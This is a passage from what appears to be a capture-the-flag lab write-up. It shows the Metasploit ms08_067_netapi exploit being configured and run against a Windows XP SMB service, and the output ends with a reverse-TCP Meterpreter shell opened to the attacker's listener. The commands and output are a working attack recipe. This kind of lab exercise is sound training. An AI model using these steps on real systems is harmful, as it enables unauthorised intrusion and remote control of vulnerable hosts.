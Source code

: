The name of the module is `ms08_067_netapi`! Let's try the exploit: we'll configure the relevant options in the Metasploit module:

```bash
msf6 > use exploit/windows/smb/ms08_067_netapi

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/smb/ms08_067_netapi) > options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-m
                                       etasploit.html
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.64.8     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting



View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4

RHOSTS => 10.10.10.4

msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST tun0

LHOST => 10.10.14.17
```

`windows/meterpreter/reverse_tcp` is the payload we want so that means we are ready to go:

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.17:4444
[*] 10.10.10.4:445 - Automatically detecting the target...
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.16/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (177734 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.17:4444 -> 10.10.10.4:1035) at 2025-04-12 18:16:37 +0200

```